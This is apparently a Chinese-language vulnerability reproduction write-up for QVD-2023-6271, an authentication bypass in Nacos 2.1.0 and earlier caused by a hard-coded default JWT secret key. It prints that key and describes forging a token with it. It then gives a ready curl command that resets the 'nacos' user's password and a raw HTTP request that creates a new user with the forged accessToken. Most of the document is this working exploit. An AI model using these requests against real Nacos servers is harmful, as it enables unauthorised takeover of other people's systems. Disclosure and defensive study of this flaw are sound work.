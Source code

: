 # QVD-2023-6271

>**Created by：** 一条‘小龍龙
>
>**Team：** TracelessSec
>
>**漏洞描述：** Nacos默认key导致权限绕过登陆



# **0x01 漏洞简介**

Nacos中发现影响Nacos <= 2.1.0的问题，Nacos用户使用默认JWT密钥导致未授权访问漏洞。 通过该漏洞，攻击者可以绕过用户名密码认证，直接登录Nacos用户。

# 0x02 影响版本

```bash
0.1.0<=Nacos<=2.1.0
```

# 0x03 漏洞复现

## 获取默认的token.secret.key

在nacos中，token.secret.key值是固定死的，位置在conf下的application.properties中：

```bash
### The token expiration in seconds:
nacos.core.auth.default.token.expire.seconds=${NACOS_AUTH_TOKEN_EXPIRE_SECONDS:18000}

### The default token:
nacos.core.auth.default.token.secret.key=${NACOS_AUTH_TOKEN:SecretKey012345678901234567890123456789012345678901234567890123456789}
```

## jwt伪造

利用该默认的key进行jwt构造，直接进入后台，构造方法：

在jwt.io在线网站中，输入默认key：

```bash
SecretKey012345678901234567890123456789012345678901234567890123456789
```

![Untitled](image/Untitled.png)

**坑点：**一定要勾选`secret base64 encoded`否则会失败！

## 利用一

修改nacos用户密码，将密码修改为123456

```bash
curl -X PUT "http://192.168.100.141:8848/nacos/v1/auth/users?username=nacos&newPassword=123456&pageNo=1&accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6ODk1NjQyMjQxMn0.2ST0jsQJaFUxgZ8q_kiaGfyA6u7QbnM4URCOZwNJ-x8"
```

![Untitled](image/Untitled%201.png)

## 利用二

新建用户

```bash
POST /nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6ODk1NjQyMjQxMn0.2ST0jsQJaFUxgZ8q_kiaGfyA6u7QbnM4URCOZwNJ-x8 HTTP/1.1
Host: 192.168.100.141:8848
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
accept: application/json, text/plain, */*
content-type: application/x-www-form-urlencoded
Orign: http://192.168.100.141:8848
referer: http://192.168.100.141:8848/nacos/
Connection: close
Content-Length: 28

username=aaa&password=123456
```

![Untitled](image/Untitled%202.png)

## 利用三

利用accessToken登录，密码错误也可以直接登录。

![Untitled](image/Untitled%203.png)